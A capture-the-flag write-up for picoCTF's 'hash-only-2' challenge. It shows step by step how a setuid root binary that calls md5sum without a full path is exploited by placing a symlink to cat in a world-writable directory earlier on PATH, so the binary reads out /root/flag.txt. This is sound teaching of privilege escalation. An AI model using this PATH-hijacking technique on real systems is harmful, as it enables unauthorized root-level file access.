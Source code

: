 # hash-only-2 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #setuid`

## Description ##

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

Connect using `ssh <user>@<server> -p <portnum>` with the password, `<password>` and run the binary named `"flaghasher"`.

## Approach ##

Approaching the challenge in a similar manner to the previous [hash-only-1](../hash-only-1/hash-only-1.md).

Listing the current directory, `ctf-player`'s user directory, we don't find any `flaghasher` binary, so it must be on the `PATH` somewhere, lets first locate it.

    $ ls -al
    total 4
    drwxr-xr-x 1 ctf-player ctf-player 20 Mar  7 23:31 .
    drwxr-xr-x 1 root       root       24 Mar  6 19:42 ..
    drwx------ 2 ctf-player ctf-player 34 Mar  7 23:31 .cache
    -rw-r--r-- 1 root       root       67 Mar  6 19:42 .profile

    $ which flaghasher
    /usr/local/bin/flaghasher

Confirming `flahhasher`'s privileges, it is again `setuid` and owned by `root`:

    $ ls -al /usr/local/bin/flaghasher 
    -rwsr-xr-x 1 root root 18312 Mar  6 19:42 /usr/local/bin/flaghasher

We again cannot access `/root` or the flag within `/root/flag.txt`, as expected.

    $ ls /root
    ls: cannot open directory '/root': Permission denied
    $ cat /root/flag.txt
    cat: /root/flag.txt: Permission denied

The binary appears unchanged from the previous challenge, when inspecting its output and the strings within the binary:

    $ flaghasher
    Computing the MD5 hash of /root/flag.txt.... 

    bd0169772370b04ed95b05d74dfbe752  /root/flag.txt

    $ strings /usr/local/bin/flaghasher | grep flag
    Computing the MD5 hash of /root/flag.txt.... 
    /bin/bash -c 'md5sum /root/flag.txt'

Inspecting the privileges of `md5sum` we can see it is no longer writeable by all users, so we cannot simply replace it like in the previous challenge:

    $ ls -al /usr/bin/md5*
    -rwxr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/md5sum
    lrwxrwxrwx 1 root root     6 Sep  5  2019 /usr/bin/md5sum.textutils -> md5sum

But what if we can get another executable to execute prior to this one in `/usr/bin`, for example something located earlier in the configured `PATH`.

From the configured `PATH` environment variable:

    $ set | grep PATH
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

We have a number of possible directories prior to `/usr/bin`, but we have to have sufficient privileges to it.

Looking at the privileges for `/usr/local/bin` it appears we do have sufficient privileges to create a replacement for `md5sum`.

    $ ls -al /usr/local
    total 0
    drwxr-xr-x 1 root root 17 Oct  6  2021 .
    drwxr-xr-x 1 root root 19 Oct  6  2021 ..
    drwxrwxrwx 1 root root 24 Mar  6 19:42 bin
    drwxr-xr-x 2 root root  6 Oct  6  2021 etc
    drwxr-xr-x 2 root root  6 Oct  6  2021 games
    drwxr-xr-x 2 root root  6 Oct  6  2021 include
    drwxr-xr-x 1 root root 23 Mar  6 19:41 lib
    lrwxrwxrwx 1 root root  9 Oct  6  2021 man -> share/man
    drwxr-xr-x 2 root root 24 Oct  6  2021 sbin
    drwxr-xr-x 1 root root 29 Mar  6 19:41 share
    drwxr-xr-x 2 root root  6 Oct  6  2021 src

## Solution ##

Creating a symbolic link to `/usr/bin/cat` named `md5sum` within `/usr/local/bin`, such that it is found prior to `/usr/bin/md5sum` should drop the flag:

    $ ln -s /usr/bin/cat /usr/local/bin/md5sum

Sanity check to verify our `md5sum` is being found first:

    $ which md5sum
    /usr/local/bin/md5sum

Run the challenge to dump the flag:

    $ flaghasher 
    Computing the MD5 hash of /root/flag.txt.... 

    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
